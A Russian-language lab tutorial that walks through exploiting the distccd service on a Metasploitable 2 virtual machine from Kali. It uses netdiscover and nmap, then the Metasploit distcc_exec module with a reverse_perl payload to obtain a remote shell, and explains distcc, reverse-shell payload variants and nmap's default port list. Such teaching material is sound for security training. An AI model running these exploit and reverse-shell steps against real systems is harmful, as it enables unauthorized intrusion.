




Предполагается что все действия выполняются на виртуальных машинах VirtualBox.
Начинаем атаку на удаленную машину Metasploitable 2.
Необходимо определить IP с машиной Metasploitable 2. Для этого сначала определим наш IP и маску подсети, для этого дадим команду в терминале Kali:
ifconfig
В результатах вывода команды выше, можно увидеть такую строку:
inet 10.0.2.4 netmask 255.255.255.0
То есть наш IP 10.0.2.4 а диапазон IP адресов нашей сети 10.0.2.0/24 (это обяснялось ранее в предыдущих статьях).
Для обнаружения других компьютеров в сети и в том числе нашей удаленной машины Metasploitable 2, дадим команду в терминале Kali:
sudo netdiscover -r 10.0.2.0/24
В выводе команды:
10.0.2.2 08:00:27:3a:17:ed 1 60 PCS Systemtechnik GmbH 10.0.2.3 08:00:27:f1:18:5a 1 60 PCS Systemtechnik GmbH
10.0.2.2 - это виртуальный роутер, который управляет нашей сетью.
10.0.2.3 - это наша машина (по логике) с Metasploitable 2.
Проверим связь между нашей Kali и удаленной ВМ Metasploitable 2, дадим команду:
ping 10.0.2.3
Если сеть в VirtualBox настроена правильно, видим пинг идет, связь есть.
На Kali выполняем команду в терминале что бы найти distccd:
nmap -sV -p3632 10.0.2.3
В выводе nmap находим такую строку (сриншот ниже):
3632/tcp open distccd distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Это значит на порту 3632 открыта служба distccd (скриншот ниже).

Запускаем консоль метсплоит:
msfconsole
После запуска метасплоит даем команду поиска distccd:
msf > search distccd
Нам выдало модуль (скриншот ниже):
0 exploit/unix/misc/distcc_exec

Даем команды:
msf > use exploit/unix/misc/distcc_exec
msf > show payloads
msf > set PAYLOAD cmd/unix/reverse_perl

Затем команды:
set RHOSTS 10.0.2.3
set LHOST 10.0.2.4
run
После установления сессии даем команду ifconfig (скриншот ниже) и видим мы на удаленной машине 10.0.2.3, мы получили обычную командную оболочку (shell). Нажимаем Ctrl + C и затем y для выхода из сессии.

Теперь теория.
Что такое distcc и distccd?
distcc (Distributed C Compiler) — это программа, которая позволяет распределять компиляцию C/C++ программ между несколькими компьютерами в сети.
Представте, что у нас есть 10 компьютеров.
Вместо того чтобы один компьютер компилировал проект 20 минут, можно разделить работу:
компьютер №1 компилирует первые файлы;
компьютер №2 — вторые;
компьютер №3 — третьи.
В результате сборка заканчивается гораздо быстрее.
Что такое distccd?
Последняя буква d означает daemon (демон).
То есть:
distcc — клиент;
distccd — сервер (демон), который принимает задания на компиляцию.
Он обычно слушает TCP-порт 3632.
Команда
set PAYLOAD cmd/unix/reverse_perl
означает, что будет использоваться Perl для создания обратного подключения.
Какая получится сессия?
Если всё пройдет успешно, мы получим обычную командную оболочку (shell).
Чем например reverse_perl отличается от reverse_bash?
Разница только в том, какая программа создает обратное TCP-соединение:
cmd/unix/reverse_bash — использует Bash.
cmd/unix/reverse_perl — использует Perl.
cmd/unix/reverse_python — использует Python.
cmd/unix/reverse_netcat — использует Netcat.
cmd/unix/reverse — использует другой доступный способ, в зависимости от реализации.
После успешного подключения результат обычно одинаковый — обычная shell-сессия.
Разберем эту строку полностью.
3632/tcp open distccd distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
На TCP-порту 3632 работает сервер distccd. Порт открыт. Сервер использует протокол distccd версии 1 и настроен для работы с GNU GCC 4.2.4, установленным из пакета Ubuntu 4.2.4-1ubuntu4.
Почему (для обнаружения) команда nmap -sC -sV 10.0.2.3 не покажет distccd (port 3632) но команда nmap -sV -p3632 10.0.2.3 показала.
Причина в том, как именно работает Nmap.
Разберем по шагам.
Первый случай
nmap -sC -sV 10.0.2.3
Мы не указали порты.
Тогда Nmap делает следующее:
Берет список 1000 самых популярных TCP-портов.
Проверяет только их.
На найденных открытых портах запускает:
-sV — определение версии сервиса;
-sC — стандартные NSE-скрипты.
Возникает вопрос:
А входит ли порт 3632 в эти 1000 популярных?
Нет. Обычно порт 3632 не входит в список Top 1000 TCP-портов Nmap.
Поэтому Nmap его вообще не проверял.
Второй случай
nmap -sV -p3632 10.0.2.3
Здесь мы сказали:
Проверяй именно порт 3632.
Nmap сразу подключился к нему.
Порт оказался открыт.
После этого -sV определил:
3632/tcp open distccd
Почему так сделано?
Потому что проверять все 65535 портов долго.
Поэтому по умолчанию Nmap делает компромисс:
65535 портов
│
│
▼
Top 1000 наиболее часто используемых
В большинстве случаев этого достаточно.
Как проверить все порты?
Используют
nmap -p- 10.0.2.3
-p- означает
Проверить все TCP-порты от 1 до 65535.
Тогда Nmap обязательно найдет:
3632/tcp open distccd
Можно совместить с определением сервисов
Например
nmap -p- -sV 10.0.2.3
или
nmap -p- -sC -sV 10.0.2.3
Тогда сначала будут найдены все открытые порты, а затем для каждого из них Nmap определит сервис и его версию.
Как узнать, входит ли порт в Top 1000?
Можно посмотреть базу данных Nmap:
grep 3632 /usr/share/nmap/nmap-services
или найти его ранг. Если порт имеет очень низкую распространенность, он не попадет в Top 1000 и не будет просканирован командой без явного указания диапазона портов.
Итог
Именно поэтому будут разные результаты:
nmap -sC -sV 10.0.2.3 → 3632 даже не сканировался, потому что не входит в список проверяемых по умолчанию портов.
nmap -sV -p3632 10.0.2.3 → порт был проверен явно, поэтому сервис distccd был обнаружен.